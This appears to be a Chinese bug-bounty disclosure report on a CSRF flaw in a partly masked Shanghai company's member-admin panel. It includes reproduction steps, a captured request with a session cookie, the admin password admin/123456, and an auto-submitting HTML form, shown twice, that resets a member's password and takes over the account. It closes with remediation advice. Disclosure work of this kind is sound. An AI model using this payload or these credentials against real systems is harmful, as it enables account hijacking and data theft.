








上海XXXX科技有限公司存在CSRF漏洞

基础信息

1.漏洞标题：上海XXXX科技有限公司后台会员编辑功能存在 CSRF 漏洞，可篡改任意会员账号密码等信息

2.漏洞大类：事件型漏洞

3.漏洞类型：逻辑漏洞

4.漏洞等级：中危

5.厂商名称：上海XXXX有限公司

6.目标域名：zxxxxxxxxxxxo.com

7.漏洞 URL：https://dxxxxn.zxxxxxxxxxxxo.com/admin/member/member_agent_edit.html?id=284

8.前置测试账号：admin / 123456

二、简要描述

后台会员信息编辑接口无 CSRF Token 校验、无请求来源 Referer 校验，攻击者可构造恶意 HTML 页面，诱导已登录管理员访问，在管理员不知情的情况下自动提交修改请求，篡改会员用户名、登录密码、联系方式，完全接管会员账号，造成用户数据篡改、账号劫持风险。

详细细节

目标资产与环境基础信息

2. 漏洞原理

修改会员信息的 POST 请求仅依靠浏览器 Cookie 判断登录身份，后端未生成、校验随机 CSRF Token，也未拦截跨域第三方请求。浏览器跨域访问恶意页面时会自动携带站点有效登录 Cookie，后台直接执行数据更新操作，无任何安全拦截。

3. 完整复现步骤

1.使用 admin/123456 登录后台管理系统；

2.左侧菜单栏进入【用户中心】→【会员列表】，找到测试会员 test123，点击编辑按钮；

3.进入编辑表单页面，不修改任何内容直接点击保存，使用 Burp Suite 抓取完整 POST 请求；

获取到https://dxxxxn.zxxxxxxxxxxxo.com/admin/member/member_agent_edit.html?id=284

4.构造自动提交的恶意 HTML 页面，表单 Action 填写会员编辑接口，预设篡改后的账号参数，实现修改账号test123的用户名、密码、昵称、联系方式。内容如下：

<!DOCTYPE html>

<html>

<head>

<meta charset="utf-8">

<title>CSRF POC 会员密码修改</title>

</head>

<body>

<h3>页面加载后将自动提交修改会员信息请求</h3>

<form name="csrf_form" method="POST" action="https://dxxxxn.zxxxxxxxxxxxo.com/admin/member/member_agent_edit.html?id=284">

<input type="hidden" name="id" value="284">

<input type="hidden" name="username" value="test001">

<input type="hidden" name="hyz" value="50">

<!-- 重点：这里填写想要重置成的新密码 -->

<input type="hidden" name="password" value="888888">

<input type="hidden" name="real_name" value="hacker">

<input type="hidden" name="phone" value="666">

<input type="hidden" name="user_time" value="2026-07-16">

<input type="hidden" name="status" value="1">

</form>

</body>

</html>

在action=””里粘贴抓包里标出的url，并且在value值里写上你想修改的新内容

5.保持当前浏览器后台登录状态，用当前浏览器直接打开恶意test.html；

6.页面自动提交伪造请求，返回编辑成功提示；

7.返回会员列表，原 test123 账号信息全部被篡改；

8.使用新用户名 test001、密码 888888 登录后台，验证账号完全被接管。

4.POC：

原始抓包POST请求：

POST /admin/member/member_agent_edit.html?id=284 HTTP/2

Host: dxxxxn.zxxxxxxxxxxxo.com

Cookie: PHPSESSID=u3e5b4iga47fgag9hrgcuaeo3l

Content-Length: 94

Cache-Control: max-age=0

Sec-Ch-Ua:

Sec-Ch-Ua-Mobile: ?0

Sec-Ch-Ua-Platform: ""

Upgrade-Insecure-Requests: 1

Origin: https://dxxxxn.zxxxxxxxxxxxo.com

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: iframe

Referer: https://dxxxxn.zxxxxxxxxxxxo.com/admin/member/member_agent_edit.html?id=284

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

id=284&username=test123&hyz=50&password=&real_name=123&phone=120&user_time=2026-07-16&status=1

CSRF 利用 POC 页面代码：

<!DOCTYPE html>

<html>

<head>

<meta charset="utf-8">

<title>CSRF POC 会员密码修改</title>

</head>

<body>

<h3>页面加载后将自动提交修改会员信息请求</h3>

<form name="csrf_form" method="POST" action="https://dxxxxn.zxxxxxxxxxxxo.com/admin/member/member_agent_edit.html?id=284">

<input type="hidden" name="id" value="284">

<input type="hidden" name="username" value="test001">

<input type="hidden" name="hyz" value="50">

<input type="hidden" name="password" value="888888">

<input type="hidden" name="real_name" value="hacker">

<input type="hidden" name="phone" value="666">

<input type="hidden" name="user_time" value="2026-07-16">

<input type="hidden" name="status" value="1">

</form>

</body>

</html>

5.漏洞危害：

1.诱导管理员访问恶意页面后，无需管理员确认即可篡改任意会员登录密码、账号信息；

2.攻击者可使用篡改后的账号密码登录后台，窃取会员业务数据；

3.批量篡改会员信息会造成平台用户数据混乱、业务信任危机；

4.结合其他漏洞可进一步横向渗透，批量接管平台全部会员账号。

四、修复方案：

1.全站敏感操作增加 CSRF Token：所有新增、编辑、修改密码、删除等 POST 表单生成随机唯一 Token，后端严格校验 Token 合法性，Token 单次有效；

2.校验请求 Referer 来源：仅允许本站域名发起后台操作请求，拦截跨域第三方域名请求；

3.Cookie 增加 SameSite 防护：设置 Cookie SameSite=Lax/Strict，阻止跨域请求携带登录 Cookie；

4.高危操作增加二次验证：修改账号密码、批量编辑会员等关键操作增加图形验证码确认；

5.后台登录加固：修改管理员弱口令 admin/123456，开启登录验证码与失败锁定机制。

补天平台提交漏洞截图：

| 信息项 | 详情 |
| 所属厂商 | 上海XXXX科技有限公司 |
| 备案信息 | 沪 ICP 备 1xxxxxx0 号 - 1 |
| 一级域名 | zxxxxxxxxxxxo.com |
| 漏洞子域名 | dxxxxn.zxxxxxxxxxxxo.com |
| 服务器 IP | 122.xx.xx.xx（阿里云上海节点） |
| 操作系统 | Linux |
| Web 服务 | nginx |
| 后端环境 | PHP + ThinkPHP 框架 |
| 服务端口 | 443（HTTPS） |
| 系统名称 | 短视频矩阵营销系统 |
| 系统定位 | 短视频矩阵营销管理平台，服务于抖音等短视频平台的矩阵号运营 |
| SSL 证书状态 | 已过期，浏览器访问会显示不安全警告 |